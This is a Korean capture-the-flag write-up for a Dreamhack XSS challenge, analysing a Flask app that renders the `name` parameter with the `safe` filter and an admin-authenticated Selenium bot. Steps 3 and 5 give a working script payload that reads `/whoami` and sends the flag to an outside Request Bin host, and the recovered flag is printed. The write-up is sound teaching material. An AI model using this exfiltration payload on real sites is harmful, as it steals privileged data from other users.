




# B2 · Introduction (XSS)

> **핵심:** 사용자 입력을 `safe`로 출력하는 페이지를 **관리자 인증 헤더가 설정된 Selenium 봇**이 방문한다. 이때 실행된 XSS가 `/whoami`의 응답에서 FLAG를 읽어 Request Bin으로 전달한다.

### 1. VM에 접속한다

`/intro`에서 Introduction 페이지를 확인한다. 이 페이지의 `name` 값이 XSS 실행 지점이다.



### 2. 코드 분석

**① `/report`가 입력 URL에서 `name`, `detail`을 추출한다.**

```python
# app.py - /report
path = request.form.get("path")
parsed_path = urlparse(path)
params = parse_qs(parsed_path.query)
name = params.get("name", [None])[0]
detail = params.get("detail", [None])[0]

if access_page(name, detail):
    return render_template("report.html", message="Success")
```

`urlparse()`는 제출한 URL을 분석하고, `parse_qs()`는 `?name=...&detail=...` 부분을 분리한다. **`/report` 자체에서 스크립트를 실행하는 것은 아니다.** 추출한 값을 `access_page()`에 전달해 봇이 방문하도록 한다.

**② Selenium 봇에 관리자 인증 헤더를 설정한다.**

```python
# app.py - access_page()
user_info = f'admin:{PASSWORD}'
encoded_user_info = b64encode(user_info.encode()).decode()

driver.execute_cdp_cmd(
    'Network.setExtraHTTPHeaders',
    {'headers': {'Authorization': f'Basic {encoded_user_info}'}}
)
driver.execute_cdp_cmd('Network.enable', {})
driver.get("http://127.0.0.1:8000/")
driver.get(f"http://127.0.0.1:8000/intro?name={quote(name)}&detail={quote(detail)}")
```

`admin:비밀번호`를 **Base64로 인코딩**하고, Chrome의 요청에 `Authorization: Basic ...` 헤더를 넣는다. Base64는 암호화가 아닌 인코딩이다. 그다음 봇이 **자체 localhost의 `/intro`**에 접속한다. `quote()`는 URL 인코딩일 뿐 XSS를 제거하지 않는다.

**③ `/intro`가 HTML로 출력한 사용자 입력을 브라우저가 실행한다.**

```python
# app.py - /intro
name = request.args.get("name")
detail = request.args.get("detail")
return render_template("intro.html", name=name, detail=detail)
```

```html
<!-- intro.html -->
<p>Hello, my name is <strong>{{ name | safe }}</strong>.</p>
```

`render_template()`은 `name`을 템플릿에 전달한다. `safe`는 `<script>` 태그를 문자로 바꾸는 **HTML 이스케이프를 생략**하므로, 입력한 `<script>...</script>`가 HTML 응답에 그대로 들어간다.

**Python의 `return`이나 `render_template()`이 JavaScript를 실행하는 것은 아니다.** 응답을 받은 **봇의 Chrome이 HTML을 해석하면서 `<script>` 코드를 실행**한다.

**④ `/whoami`에서 관리자 인증이 통과하면 FLAG가 응답에 포함된다.**

```python
# app.py - /whoami (핵심 부분)
authorization = request.headers.get('Authorization')
user_info = b64decode(authorization.split('Basic ')[1].encode()).decode()
id = user_info.split(":")[0]
password = user_info.split(":")[1]

if ((id == 'admin') and (password == '[**REDACTED**]')):
    message = FLAG
    return render_template('whoami.html', id=id, message=message)
```

봇은 앞에서 설정한 인증 헤더를 사용하므로 `/whoami`의 관리자 검사를 통과할 수 있다. **여기서 FLAG는 봇이 받은 HTML 응답에 들어 있으며, 내 브라우저에는 직접 보이지 않는다.**

### 3. Console에서 XSS URL을 만든다

문제 사이트에서 **F12 → Console**을 열고 다음 코드를 입력한다.

```javascript
var p = `<script>fetch('/whoami').then(r=>r.text()).then(t=>{let f=t.match(/DH[{][^}]+[}]/);if(f)new Image().src='https://bsnahem.request.dreamhack.games/?flag='+encodeURIComponent(f[0])})</script>`;

copy(location.origin+'/intro?name='+encodeURIComponent(p)+'&detail=x');
```



- `p`: `/intro`에서 실행시킬 스크립트 문자열
- `encodeURIComponent(p)`: `<`, `>` 등을 URL에 넣을 수 있도록 인코딩
- `copy(...)`: XSS가 담긴 **전체 `/intro?name=...` URL을 복사** (`undefined`는 오류가 아님)
- `detail=x`: 서버가 `detail`도 받아 URL을 재구성하도록 값 지정

이 시점에는 **코드를 만들고 복사했을 뿐**, 관리자 봇에서 실행한 것이 아니다.

### 4. `/report`에 URL을 제출한다

`/report` 입력창에 **콘솔에서 복사한 전체 URL**을 붙여넣고 `Report`를 누른다.



그러면 `/report`가 URL의 `name`에서 XSS 코드를 추출해 `access_page()`를 호출하고, **관리자 봇이 `/intro`를 방문하면서 XSS가 실행된다.**

화면의 **`Success`는 봇 방문 절차가 성공했다는 뜻**이지, FLAG 전송까지 확인된 것은 아니다.

### 5. 실행된 스크립트와 FLAG 전송 과정

앞에서 만든 코드의 핵심 부분을 읽기 쉽게 나누면 다음과 같다.

```javascript
fetch('/whoami')                       // 관리자 봇에서 요청
  .then(r => r.text())                 // HTML 응답을 문자열로 읽음
  .then(t => {
    let f = t.match(/DH[{][^}]+[}]/);  // 응답에서 DH{...} 추출
    if (f) {
      new Image().src =
        'https://bsnahem.request.dreamhack.games/?flag=' +
        encodeURIComponent(f[0]);
    }
  });
```

`fetch('/whoami')`는 **관리자 봇 안에서** 실행되므로, 봇에 설정된 `Authorization` 헤더를 가진 요청이 보내진다. `r.text()`는 응답의 HTML을 문자열로 바꾸고 `match()`는 `DH{...}` 형식의 FLAG를 찾는다.

`new Image().src`는 이미지 주소를 지정할 때 브라우저가 **GET 요청을 보내는 성질**을 이용한다. 요청 URL의 `?flag=` 뒤에 FLAG가 들어가므로 **Request Bin에서 해당 요청을 기록**할 수 있다.

### 6. Request Bin에서 FLAG 확인



실제 수신 요청의 Query String:

```text
flag=DH%7Bc5c5945ef44c4aae5b331986ca4e46419582b5405f19ebff8cb08bca07f41e4f%7D
```

`%7B`는 `{`, `%7D`는 `}`이므로 URL 디코딩하면 다음 FLAG가 된다.

```text
DH{c5c5945ef44c4aae5b331986ca4e46419582b5405f19ebff8cb08bca07f41e4f}
```

**최종 흐름:** `/report` 제출 → 인증된 Selenium 봇이 `/intro` 방문 → `name | safe` 때문에 XSS 실행 → `/whoami` 관리자 응답 읽기 → FLAG를 Request Bin에 전송.

**취약점 원인:** 신뢰할 수 없는 `name` 입력에 `safe`를 적용해 스크립트 실행을 허용하고, 관리자 권한을 가진 봇이 그 페이지를 방문하도록 만든 점이다.